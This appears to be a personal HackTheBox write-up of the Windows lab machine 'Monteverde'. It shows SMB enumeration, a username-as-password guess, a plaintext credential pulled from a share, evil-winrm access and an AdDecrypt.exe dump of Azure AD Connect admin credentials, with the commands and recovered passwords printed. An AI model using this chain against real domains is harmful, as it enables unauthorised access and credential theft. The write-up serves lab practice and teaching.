 # Monteverde

![](images/info.PNG)

__Task__: Find [user.txt](#user-flag) and [root.txt](#root-flag)

### Penetration Methodologies

__Scanning__

- nmap

__Enumeration__

- enum4linux

- SMB Share enumeration

__Exploitation__

- Weak password policy

- Stored plaintext password

__Priv Esc__

- Azure AD Connect Service Privileged Account 

***

This is my write-up for the HackTheBox Windows machine _Monteverde_.

## User Flag

My first step is to run my `nmap` scan. _Monteverde_ is running a lot of services, which may indicate a Active Directory DC. 

```
# Nmap 7.80 scan initiated Thu May 28 15:05:20 2020 as: nmap -O -sV -sC -oN init172.txt 10.10.10.172
Nmap scan report for 10.10.10.172
Host is up (0.059s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-05-28 19:18:38Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/28%Time=5ED01992%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -46m55s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-05-28T19:21:03
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 28 15:10:35 2020 -- 1 IP address (1 host up) scanned in 315.60 seconds
```

After the results come back, I also run a full port scan to see if any additional ports may be open. 

```bash
$ nmap -O -sV -sC -p- -oN full172.txt 10.10.10.172
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

The port that I make note of from the full scan is 5985. This tells me that the box is running `WinRM 2.0 (Microsoft Windows Remote Management)`. Once I find some credentials, I may be able to gain a foothold through this service.

Next, I run `enum4linux`, a tool primarily used to enumerate Windows or Samba systems.

```bash
$ enum4linux -U -o 10.10.10.169
```

One of the most crucial items I receive from `enum4linux` are users on the system. Two users stand out and our not like the others: AAD__987d7f2f57d2 and SABatchJobs. 

![](images/enum-users.png)

More enumeration doesn't yield much information and I don't have any potential passwords. HackTheBox doesn't generally encourage bruteforcing credentials, so I decide to use the two usernames from earlier as their own passwords. 

I have two potential services that accept logins, `SMB` and `WinRM`. I'll first try `SMB`. I can use `smbclient` to [enumerate shares](https://www.computerhope.com/unix/smbclien.htm) on _Monteverde_, but only if I have valid credentials. Fortunately, using the command and credentials below, I can sucessfully view the available shares.

```bash
$ smbclient -L 10.10.10.172 -U SABatchJobs%SABatchJobs
```

The available shared resources are displayed. I can now enumerate some of the file system. 

![](images/shares.png)

I connect to the various shares with `smbclient`.

```bash
$ smbclient \\\\10.10.10.172\\users$ -U SABatchJobs%SABatchJob
```

Within the `users$` share I find multiple user folders. As I poke around I discover that the user mhope has an interesting xml file. I retrieve it using the `get` command and find a password stored in cleartext.

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

I can only assume that this belongs to the user mhope. With luck, this user also uses the same password across services. I leave the shares behind for now and return to attempt remote access using `WinRM`. 

With the help of `evil-winrm`, a Windows Remote Management tool for pentesting, I gain a foothold on the machine.

```bash
$ evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```

On the user's desktop, I find my first flag!

![](images/user-flag.png)

## Root Flag

Now that I have remote access to a user on the system, I need to see what permissions this account has and what groups they are apart of. I use the command `net user` to start.

```powershell
> net user mhope
[...]
Global Group memberships     *Azure Admins         *Domain Users
```

I omitted some of the results, but it looks like the user mhope is apart of the `Azure Admins` group. After some research on a potential CVE, I found [this article](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/), which provides great information on an exploit that allows a user to retrieve plaintext credentials of the privileged account being utilized by the Azure AD Connect.

I downloaded the two files `AdDecrypt.exe` and `mcrypt.dll` and uploaded them to _Monteverde_ using the built-in feature on `evil-winrm`.

![](images/uploads.png)

Afterwards, I navigate to the `Microsoft Azure AD Sync\Bin` directory, and run the executable. 

```powershell
> cd “C:\Program Files\Microsoft Azure AD Sync\Bin”
> C:\Users\mhope\AdDecrypt.exe -FullSQL
```

Pretty quickly I receive credentials. Fortunately for me, they are for the administrator account!

```
======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

I once again connect to the machine, this time with my newly attained credentials.

```bash
$ evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'
```

I navigate to the Administrator desktop and collect the flag. _Monteverde_ rooted!

![](images/root-flag.png)


***

This was a fun box. At the time of this write-up, `SMB` is not one of my strengths, and I enjoy learning new ways of interacting with it. I also liked enumerating the machine, I can never get enough Windows enumeration. The password discovery at the beginning also felt realistic, lazy administrators may not consider the consequences of poor password practices on service accounts.

### Rankings:

__Real-life Applicable__: 7/10

__Common Vulnerabilities__: 9/10

__Enumeration__: 8/10

